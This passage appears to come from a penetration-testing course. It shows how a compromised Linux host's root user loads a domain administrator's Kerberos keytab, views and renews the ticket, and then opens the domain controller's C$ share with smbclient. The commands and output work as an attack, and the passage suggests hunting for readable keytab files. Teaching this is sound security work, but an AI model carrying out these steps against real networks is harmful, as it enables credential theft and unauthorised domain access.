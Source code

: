> Listing 68 - Loading a keytab file

Using the klist command, we can verify that the tickets from the keytab have been loaded into our root account's credential cache file.

```
root@linuxvictim:~# klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: administrator@CORP1.COM

Valid starting       Expires              Service principal
07/30/2020 15:18:34  07/31/2020 01:18:34  krbtgt/CORP1.COM@CORP1.COM
        renew until 08/06/2020 15:18:34
```

> Listing 69 - Viewing our loaded TGT file from the keytab

If it's been a while since the tickets were created, they may have expired. However, if it's within the renewal timeframe, we can renew it without entering a password using kinit with the -R flag.

```
root@linuxvictim:~# kinit -R
```

> Listing 70 - Renewing an expired TGT

Normally, keytab files would be written somewhere safe such as the user's home folder. In our case, since we've compromised the server entirely and have _root_ access, the location wouldn't matter.

Some users will set weak keytab file permissions for ease of use or for sharing with other accounts, so it's worthwhile to check for readable keytabs if Kerberos is in use on the system.

Now that our root user has the keytab files loaded, we can authenticate as the domain admin and access any resources they have access to.

Let's attempt to access the domain controller's C drive.

```
root@linuxvictim:~# smbclient -k -U "CORP1.COM\administrator" //DC01.CORP1.COM/C$
WARNING: The "syslog" option is deprecated
Try "help" to get a list of possible commands.
smb: \> ls
  $Recycle.Bin                      DHS        0  Sat Sep 15 03:19:00 2018
  Documents and Settings            DHS        0  Tue Jun  9 13:50:42 2020
  pagefile.sys                      AHS 738197504  Fri Oct  2 11:25:15 2020
  PerfLogs                            D        0  Mon Jun 15 15:04:37 2020
  Program Files                      DR        0  Mon Jun 15 08:10:03 2020
  Program Files (x86)                 D        0  Tue Jun  9 08:43:21 2020
  ProgramData                        DH        0  Mon Jun 15 15:04:37 2020
  Recovery                          DHS        0  Tue Jun  9 13:50:45 2020
  SQL2019                             D        0  Tue Jun  9 08:34:53 2020
  System Volume Information         DHS        0  Tue Jun  9 07:38:26 2020
  Tools                               D        0  Mon Jun 15 08:09:24 2020
  Users                              DR        0  Mon Jun 15 15:22:49 2020
  Windows                             D        0  Mon Jun 15 15:04:45 2020

                6395903 blocks of size 4096. 2185471 blocks available
```
